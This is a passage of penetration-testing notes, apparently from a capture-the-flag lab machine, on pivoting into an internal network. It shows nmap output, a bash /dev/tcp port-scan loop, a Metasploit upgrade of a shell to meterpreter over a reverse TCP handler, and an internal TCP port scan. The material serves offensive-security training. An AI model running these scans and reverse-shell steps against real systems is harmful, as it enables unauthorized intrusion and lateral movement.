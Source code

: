 ```bash
Nmap scan report for reddish_composition_www_1.reddish_composition_internal-network (172.19.0.4)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.00021s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:AC:13:00:04 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 2.17 seconds
```

### Port Scanning using Bash Script

```bash
# bash -c 'for p in $(seq 1 10000); do(echo test >/dev/tcp/172.19.0.2/$p && echo "$p open") 2>/dev/null; done'
6379 open
# bash -c 'for p in $(seq 1 10000); do(echo test >/dev/tcp/172.19.0.4/$p && echo "$p open") 2>/dev/null; done'
80 open
```

### Port Scanning using Metasploit

We can also do Pivoting using Metasploit, for that get a meterpreter shell first.

```bash
# ^Z
Background session 3? [y/N]  y
msf5 exploit(multi/handler) > sessions -u 3
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [3]

[*] Upgrading session ID: 3
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.10.14.30:4433 
[*] Sending stage (980808 bytes) to 10.10.10.94
[*] Command stager progress: 100.00% (773/773 bytes)

meterpreter >
```

**Reference:**

- [https://www.offensive-security.com/metasploit-unleashed/pivoting/](https://www.offensive-security.com/metasploit-unleashed/pivoting/)

Use `scanner/portscan/tcp` this module and run the scan on which IP we need to.

```bash
msf5 auxiliary(scanner/portscan/tcp) > set RHOSTS 172.19.0.2
RHOSTS => 172.19.0.2
msf5 auxiliary(scanner/portscan/tcp) > set PORTS 1-1000
PORTS => 1-1000
msf5 auxiliary(scanner/portscan/tcp) > run
[+] 172.19.0.2:           - 172.19.0.2:80 - TCP OPEN
[*] 172.19.0.2:           - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
